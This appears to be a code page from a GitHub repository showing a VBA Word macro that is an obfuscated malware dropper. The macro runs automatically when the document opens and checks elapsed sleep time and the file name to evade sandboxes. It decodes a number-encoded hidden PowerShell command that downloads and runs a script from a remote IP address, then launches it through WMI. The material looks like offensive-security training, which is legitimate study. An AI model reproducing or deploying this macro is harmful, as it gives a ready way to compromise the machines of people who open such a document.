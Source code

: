 ```vb
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function Grass(Goats)
    Grass = Chr(Goats - 12)
End Function

Function Screen(Grapes)
    Screen = Left(Grapes, 3)
End Function

Function Gorgon(Topside)
    Gorgon = Right(Topside, Len(Topside) - 3)
End Function

Function Yellow(Troop)
    Do
        Shazam = Shazam + Grass(Screen(Troop))
        Troop = Gorgon(Troop)
    Loop While Len(Troop) > 0
    Yellow = Shazam
End Function

Function MyMacro()
    Dim Apples As String
    Dim Leap As String
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    t1 = Now()
    Sleep (5000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 4.5 Then
        Exit Function
    End If
     'Simple heuristics bypass attempt. Ensure file is named 'app.docm' (in vbObfuscate.ps1)
    If ActiveDocument.Name <> Yellow("109124124058112123111121") Then
        Exit Function
    End If
    ' Our encoded shellcode
    Apples = "124123131113126127116113120120044057113132113111044110133124109127127044057122123124044057131044116117112112113122044057111044117113132052122113131057123110118113111128044122113128058131113110111120117113122128053058112123131122120123109112127128126117122115052051116128128124070059059061069062058061066068058064069058066066059109128128109111116058128132128051053"
    Leap = Yellow(Apples)
    ' Call the Win32_Process.Create() Method of the Win32 WMI Provider "winmgmts:" (in vbObfuscate.ps1)
    GetObject(Yellow("131117122121115121128127070")).Get(Yellow("099117122063062107092126123111113127127")).Create Leap, Tea, Coffee, Napkin
End Function
```
